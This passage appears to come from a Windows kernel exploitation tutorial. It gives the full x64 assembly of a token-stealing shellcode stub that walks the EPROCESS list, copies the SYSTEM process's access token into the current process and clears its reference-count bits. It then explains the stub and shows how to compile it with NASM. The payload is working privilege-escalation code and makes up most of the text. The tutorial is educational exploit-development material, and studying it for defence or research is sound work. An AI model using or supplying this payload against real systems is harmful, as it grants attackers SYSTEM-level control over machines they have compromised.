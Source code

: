 ```asm
    push rcx

    ; Start of Token Stealing Stub 

    mov rax, [gs:KTHREAD_OFFSET]        ; Get KTHREAD of current thread 
    mov rax, [rax + EPROCESS_OFFSET]    ; Get current EPROCESS from KTHREAD
    
    mov rbx, rax                        ; Store current EPROCESS pointer in rbx

    __search_system_pid_loop:
        mov rax, [rax + FLINK_OFFSET]   ; Get the next active process in the list
        sub rax, FLINK_OFFSET           ; Go to the start of the EPROCESS struct
        mov rcx, [rax + PID_OFFSET]     ; Put the PID of this process into rcx
        cmp rcx, SYSTEM_PID             ; Compare the PID of the process to SYSTEM
        jne __search_system_pid_loop

    mov rcx, [rax + TOKEN_OFFSET]       ; Get a pointer to SYSTEM token
    and cl, 0xf0                        ; Clear the reference count
    mov [rbx + TOKEN_OFFSET], rcx       ; Copy SYSTEM token to current process

    ; End of Token Stealing Stub

    pop rcx                             ; Restore registers
    pop rbx
    pop rax
    
    ret                                           
```

It's more or less the same shellcode as last time, just with different offsets and 64 bit registers.  There's only one line I added that might not be immediately clear:

```asm
    and cl, 0xf0                              ; Clear the reference count
```

There's a bit of a quirk with the `AccessToken` pointer field in the `EPROCESS` struct.  The actual Access Token the field points to is always written to a memory address that is a multiple of 0x10 (as an optimization for stack alignment).  This means the bottom 4 bits of the pointer are always 0. 

Back in the early days of computers, every bit of memory was expensive, and using memory as efficiently as possible was a high priority.  We know these bits are 0, so there's no need to explicitly store them.  This means they can be used for something else.  Windows uses those bits to keep track of how many active references there are to the token within the process.

Our exploit code doesn't have the same number of references to the token as the SYSTEM process, so it's best to clear them out.  If you're feeling exact, you could probably copy the references from the old token to the new one, but in practice that is rarely done.

You can compile the code with NASM:

```cmd
nasm shellcode.asm -o shellcode.o
```
